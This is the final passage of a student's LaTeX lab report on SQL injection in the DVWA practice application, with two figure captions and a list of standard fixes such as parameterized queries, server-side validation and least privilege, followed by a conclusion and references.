    
\includegraphics[width=1.0\textwidth]{Screenshot9.png}
    \caption{Modifying client-side input via developer tools to perform SQL Injection on 'Medium' setting.}
\end{figure}


\begin{figure}[H]
    \centering
    
\includegraphics[width=1.0\textwidth]{Screenshot11.png}
    \caption{Modifying client-side input via developer tools to perform SQL Injection on 'Medium' setting.}
\end{figure}

\textbf{Q7. What can the application owner do to fix these SQL injection vulnerabilities?}

\textbf{Answer:}

The application owner can fix these SQL injection vulnerabilities by implementing the following measures:

\begin{enumerate}
\item \textbf{Use Server-Side Input Validation and Sanitization.}

Validate all user inputs on the server side to ensure they meet expected formats and values. For example, if the input should be a number, check it is indeed a number. Sanitizing inputs involves removing or encoding special characters which could alter the structure of SQL queries.

\item \textbf{Use Prepared Statements or Parameterized Queries.}

Prepared statements ensure SQL queries and data are sent to the database separately. This means  user input cannot change the structure of the SQL command. 
\item \textbf{Limit Database User Privileges.}

The database account used by the application should have the minimum permissions necessary. For example, if the application only needs to read data, the database user should not have permission to modify or delete data. 

\item \textbf{Use Stored Procedures.}

Stored procedures are pre-written SQL queries stored in the database. By using stored procedures, the application can execute database operations without including user input directly in SQL statements. 

\item \textbf{Employ Error Handling and Hide Error Details.}

Configure the application to display generic error messages to users. Detailed error information should be logged internally but not shown to the user. 

\item \textbf{Implement Client-Side and Server-Side Input Checks.}

While server-side validation is crucial, adding client-side validation can enhance security and improve user experience. However, client-side checks should not replace server-side validation, as they can be bypassed.

\item \textbf{Regularly Update the Application and Database Systems.}

Keep the application, web server, and database management systems up to date with the latest security patches. 

\item \textbf{Educate Developers on Secure Coding Practices.}

Developers should be trained to write secure code and be aware of common security threats like SQL injection. Regular code reviews and security audits can help identify and fix vulnerabilities early.

\item \textbf{Use a Web Application Firewall (WAF).}

A WAF can help detect and block malicious traffic, including SQL injection attempts. It acts as a filter between the web application and the internet, analyzing incoming requests for signs of attacks.

\item \textbf{Implement the Principle of Least Privilege.}

Only grant users and processes the permissions they need to perform their tasks. This limits the potential damage if an account is compromised.

\end{enumerate}

\section{Conclusion}

This lab showed how SQL injection vulnerabilities can be used to access sensitive data. By learning how attackers change SQL queries, we can put in place good security measures to protect web applications. We saw importance of server-side validation and limits of client-side controls, especially when testing different security levels in DVWA.

\section{References}

\begin{itemize}
    \item DVWA Official Documentation: \url{http://www.dvwa.co.uk/}
    \item OWASP SQL Injection: \url{https://owasp.org/www-community/attacks/SQL_Injection}
    \item SQL Injection Prevention Cheat Sheet: \url{https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html}
    \item Virginia Cyber Range Lab Materials
\end{itemize}

\vfill
{\color{red}\textit{“This work complies with JMU honor code. I did not give or receive unauthorized help on this assignment.”}}

\end{document}